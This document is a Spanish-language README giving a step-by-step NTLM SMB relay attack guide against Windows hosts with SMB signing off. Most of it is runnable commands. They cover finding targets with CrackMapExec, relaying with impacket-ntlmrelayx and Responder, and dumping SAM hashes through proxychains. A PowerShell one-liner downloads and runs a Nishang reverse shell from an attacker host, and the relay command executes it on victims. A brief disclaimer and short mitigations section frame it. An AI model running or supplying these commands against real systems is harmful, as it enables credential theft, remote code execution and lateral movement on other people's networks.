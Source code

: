 # NTLM SMB Relay Attack Guide


## 📌 Descripción
Guía técnica para realizar ataques de **NTLM Relay** contra sistemas Windows con SMB signing deshabilitado, permitiendo ejecución remota de comandos, robo de hashes y movimiento lateral.

## ⚠️ Requisitos Legales
- **Solo para pentesting autorizado o entornos de laboratorio**.  
- Nunca atacar sistemas sin permiso explícito.

---

## 🔧 Herramientas Necesarias
- **Kali Linux** (o distribución con herramientas preinstaladas).  
- **Impacket**: `sudo apt install impacket`.  
- **CrackMapExec**: `sudo apt install crackmapexec`.  
- **Responder**: `sudo apt install responder`.  

---

## 🚀 Pasos del Ataque

### 1️⃣ Identificar sistemas vulnerables
```bash
crackmapexec smb 192.168.1.0/24 --gen-relay-list targets.txt
````
   
Salida esperada:
SMB   192.168.1.10    SIGNING:Not enforced  # ¡Vulnerable!

2️⃣ Configurar targets.txt
plaintext
Copy

smb://192.168.1.10
smb://192.168.1.20

3️⃣ Desactivar SMB/HTTP en Responder
 ```bash
/etc/responder/Responder.conf:
````
SMB = Off
HTTP = Off

4️⃣ Iniciar NTLM Relay
````bash
impacket-ntlmrelayx -smb2support -tf targets.txt -socks -debug
````
5️⃣ Iniciar Responder (en otra terminal)
```bash
sudo responder -I eth0
````

6️⃣ Explotación con ProxyChains

Editar socks4 127.0.0.1 1080
```bash
/etc/proxychains4.conf:
````

Ejemplo: Robar hashes SAM
````bash
proxychains4 crackmapexec smb 192.168.1.10 -u '' -p '' --sam
````

Ejemplo: Reverse Shell

Preparar shell.ps1 (ejemplo de Nishang):

 ```bash
 IEX(New-Object Net.WebClient).DownloadString("http://192.168.1.100:8000/Invoke-PowerShellTcp.ps1");Invoke-PowerShellTcp -Reverse -IPAddress 192.168.1.100 -Port 443
````
Servir el script:
````bash  
python3 -m http.server 8000
````
Ejecutar relay:

````bash
impacket-ntlmrelayx -smb2support -tf targets.txt -c "powershell -c \"IEX(New-Object Net.WebClient).DownloadString('http://192.168.1.100:8000/shell.ps1')\""
````

🛡️ Mitigaciones

Habilitar SMB Signing en GPO:

Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options > Microsoft network server: Digitally sign communications (always).

Deshabilitar NTLM y usar Kerberos.

Segmentar redes para limitar tráfico SMB.
